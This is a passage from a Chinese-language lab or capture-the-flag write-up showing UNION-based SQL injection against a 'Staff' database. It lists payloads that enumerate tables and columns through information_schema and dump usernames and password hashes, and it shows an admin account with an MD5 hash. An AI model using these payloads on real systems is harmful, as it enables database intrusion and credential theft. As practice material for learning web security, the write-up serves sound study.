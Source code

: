 查看staff中的所有表

```
-1' union select group_concat(table_name),1,2,3,4,5 from information_schema.tables where table_schema='Staff'#
```

```
-1' union select 1,2,3,group_concat(table_name),4,5 from information_schema.tables where table_schema='Staff'#
```

得到两个表

```
StaffDetails
Users
```

![image-20220322152503035](https://gitee.com/xxb667/img/raw/master/img/image-20220322152503035.png)



查看users表中所有的列

```
-1' union select 1,2,3,group_concat(column_name),4,5 from information_schema.columns where table_name='Users'#
```

得到3列

```
UserID
Username
Password
```

![image-20220322153531549](https://gitee.com/xxb667/img/raw/master/img/image-20220322153531549.png)

查看表中user,password

```
-1' union select 1,2,3,4,group_concat(Username),group_concat(Password) from Users#
```

```
-1' union select 1,2,3,group_concat(Username),group_concat(Password),5 from Users#
```

用户名如下：

```
账户: admin
密码: 856f5de590ef37314e7c3bdf6f8a66dc
```

![image-20220322153746617](https://gitee.com/xxb667/img/raw/master/img/image-20220322153746617.png)

## 2.6 MD5解码
